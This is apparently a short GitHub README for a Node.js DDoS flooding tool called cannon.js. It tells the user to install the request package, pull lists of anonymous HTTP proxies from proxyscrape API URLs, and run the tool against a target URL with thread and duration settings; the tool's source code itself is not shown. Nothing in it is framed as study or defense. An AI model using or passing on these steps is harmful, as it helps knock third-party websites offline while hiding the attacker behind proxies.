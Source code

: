 ![ddos](https://user-images.githubusercontent.com/101634873/192137686-1f64af70-85ad-4516-92e6-7cf6f2f97a7d.png)

**Install Packages:**
```
npm install request
```
**Download Proxy:**
```
https://api.proxyscrape.com/v2/?request=displayproxies&protocol=http&timeout=1000000&country=all&ssl=all&anonymity=all
https://api.proxyscrape.com/?request=displayproxies&proxytype=http&timeout=1000000&anonymity=elite
https://api.proxyscrape.com/?request=displayproxies&proxytype=http
```
**Example:** 
```
node cannon.js GET 4 https://target.com <threads> <time>
```
